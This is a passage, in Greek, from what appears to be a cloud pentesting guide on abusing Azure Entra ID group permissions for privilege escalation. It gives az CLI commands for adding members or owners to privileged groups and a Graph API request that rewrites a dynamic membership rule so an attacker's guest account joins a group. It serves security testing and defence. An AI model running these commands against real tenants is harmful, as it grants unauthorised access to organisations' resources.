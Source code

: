 ### `microsoft.directory/groups/allProperties/update`

Αυτή η άδεια επιτρέπει την προσθήκη χρηστών σε προνομιούχες ομάδες, οδηγώντας σε κλιμάκωση προνομίων.
```bash
az ad group member add --group <GroupName> --member-id <UserId>
```
**Σημείωση**: Αυτή η άδεια εξαιρεί τις ομάδες που μπορούν να ανατεθούν ρόλοι Entra ID.

### `microsoft.directory/groups/owners/update`

Αυτή η άδεια επιτρέπει να γίνετε ιδιοκτήτης ομάδων. Ένας ιδιοκτήτης ομάδας μπορεί να ελέγχει τη συμμετοχή και τις ρυθμίσεις της ομάδας, ενδεχομένως αυξάνοντας τα προνόμια στην ομάδα.
```bash
az ad group owner add --group <GroupName> --owner-object-id <UserId>
az ad group member add --group <GroupName> --member-id <UserId>
```
**Σημείωση**: Αυτή η άδεια εξαιρεί τις ομάδες που μπορούν να ανατεθούν ρόλοι Entra ID.

### `microsoft.directory/groups/members/update`

Αυτή η άδεια επιτρέπει την προσθήκη μελών σε μια ομάδα. Ένας επιτιθέμενος θα μπορούσε να προσθέσει τον εαυτό του ή κακόβουλους λογαριασμούς σε προνομιούχες ομάδες, γεγονός που μπορεί να παραχωρήσει αυξημένη πρόσβαση.
```bash
az ad group member add --group <GroupName> --member-id <UserId>
```
### `microsoft.directory/groups/dynamicMembershipRule/update`

Αυτή η άδεια επιτρέπει την ενημέρωση του κανόνα μέλους σε μια δυναμική ομάδα. Ένας επιτιθέμενος θα μπορούσε να τροποποιήσει τους δυναμικούς κανόνες για να συμπεριληφθεί σε προνομιούχες ομάδες χωρίς ρητή προσθήκη.
```bash
groupId="<group-id>"
az rest --method PATCH \
--uri "https://graph.microsoft.com/v1.0/groups/$groupId" \
--headers "Content-Type=application/json" \
--body '{
"membershipRule": "(user.otherMails -any (_ -contains \"security\")) -and (user.userType -eq \"guest\")",
"membershipRuleProcessingState": "On"
}'
```
**Σημείωση**: Αυτή η άδεια εξαιρεί τις ομάδες ρόλων που είναι αναθέσιμες στο Entra ID.

### Δυναμικές Ομάδες Privesc

Ενδέχεται να είναι δυνατό για τους χρήστες να αναβαθμίσουν τα δικαιώματά τους τροποποιώντας τις δικές τους ιδιότητες ώστε να προστεθούν ως μέλη δυναμικών ομάδων. Για περισσότερες πληροφορίες, ελέγξτε:

{% content-ref url="dynamic-groups.md" %}
[dynamic-groups.md](dynamic-groups.md)
{% endcontent-ref %}

